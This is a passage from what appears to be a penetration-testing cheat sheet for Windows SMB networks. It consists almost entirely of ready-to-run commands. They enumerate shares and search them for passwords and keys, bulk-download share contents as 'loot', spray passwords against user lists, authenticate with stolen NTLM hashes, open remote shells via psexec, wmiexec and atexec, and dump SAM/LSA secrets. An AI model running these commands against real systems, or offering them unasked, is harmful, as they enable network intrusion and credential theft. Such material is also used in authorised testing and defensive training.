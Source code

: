 ```
smbmap -H $TARGET -u "$USER" -p "$PASS"            # list shares + perms
smbmap -H $TARGET -u "$USER" -p "$PASS" -R SHARE   # recursive list
smbmap -H $TARGET -u "$USER" -p "$PASS" -r SHARE -A '(pass|cred|key|secret|config|backup|.kdbx|web.config)'

# Bulk download via smbget
smbget -R "smb://$TARGET/SHARE" -u "$USER" -p "$PASS" -o loot/${TARGET}_SHARE

# Mount the share (Linux) for easy grep/search
sudo mkdir -p /mnt/${TARGET}_SHARE
sudo mount -t cifs "//${TARGET}/SHARE" /mnt/${TARGET}_SHARE -o "username=$USER,password=$PASS,domain=$DOMAIN,vers=3.0"
# Search for secrets
grep -RniE '(password|passwd|pwd|credential|secret|key|token|cpassword)' /mnt/${TARGET}_SHARE 2>/dev/null
```

5) Credential testing, pass-the-hash, and share recon at scale

```
# CrackMapExec (CME) or NetExec (nxc) — try credentials and enumerate shares
crackmapexec smb $TARGET -u "$USER" -p "$PASS" --shares
# or
nxc smb $TARGET -u "$USER" -p "$PASS" --shares --continue-on-success

# Spray a password against a user list (respect lockout policies; throttle attempts)
nxc smb $TARGET -u users.txt -p 'Spring2025!' --rate 3 --max-retries 1 --continue-on-success

# Pass-the-hash (NTLM)
# If you have just the NT hash (no LM), use :NTHASH
crackmapexec smb $TARGET -u "$USER" -H "NTHASH" --shares
nxc smb $TARGET -u "$USER" -H "NTHASH" --shares

# Enumerate sessions, logged-on users, and local groups
nxc smb $TARGET -u "$USER" -p "$PASS" --sessions
nxc smb $TARGET -u "$USER" -p "$PASS" --loggedon
nxc smb $TARGET -u "$USER" -p "$PASS" --local-group "Administrators"
```

6) Remote command execution (with admin) and hash dumping

```
# psexec (creates a service; high-privileged command shell)
psexec.py ${DOMAIN}/${USER}:${PASS}@${TARGET}

# Pass-the-hash with psexec (no password; NT only)
psexec.py ${DOMAIN}/${USER}@${TARGET} -hashes :NTHASH

# wmiexec (fileless, often stealthier; semi-interactive cmd shell)
wmiexec.py ${DOMAIN}/${USER}:${PASS}@${TARGET}

# atexec (one-shot command via scheduled task)
atexec.py ${DOMAIN}/${USER}:${PASS}@${TARGET} "whoami /all"

# Dump local SAM/LSA secrets (requires admin)
secretsdump.py ${DOMAIN}/${USER}:${PASS}@${TARGET} -outputfile loot/${TARGET}_secrets

# If you only have NT hash
secretsdump.py ${DOMAIN}/${USER}@${TARGET} -hashes :NTHASH -outputfile loot/${TARGET}_secrets
```
